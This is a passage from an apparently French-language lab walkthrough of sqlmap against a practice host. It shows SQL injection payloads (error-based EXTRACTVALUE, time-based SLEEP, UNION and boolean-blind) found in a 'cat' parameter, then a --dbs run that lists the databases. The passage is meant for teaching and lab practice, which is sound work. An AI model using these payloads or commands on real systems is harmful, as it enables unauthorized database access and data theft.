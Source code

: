 ```bash

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: cat=1 AND EXTRACTVALUE(1846,CONCAT(0x5c,0x716a787071,(SELECT (ELT(1846=1846,1))),0x7170766a71))

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: cat=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: cat=1 UNION ALL SELECT CONCAT(0x716a787071,0x714d486661414f6456787a4a55796b6c7a78574f7858507a6e6a725647436e64496f4965794c6873,0x7170766a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- HMgq
---
[08:45:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[text removed]
```

On voit qu'il a testé plein d'injection SQL ci dessus

Pour récupérer les bases de données, nous utilisons le flag `--dbs`. Essayons ce flag avec notre URL vulnérable :

```bash
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:49:00] [INFO] resuming back-end DBMS' mysql' 
[08:49:00] [INFO] testing connection to the target URL
[08:49:01] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]    
[08:49:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:49:01] [INFO] fetching database names
available databases [2]:
[*] users
[*] members

[text removed]
```
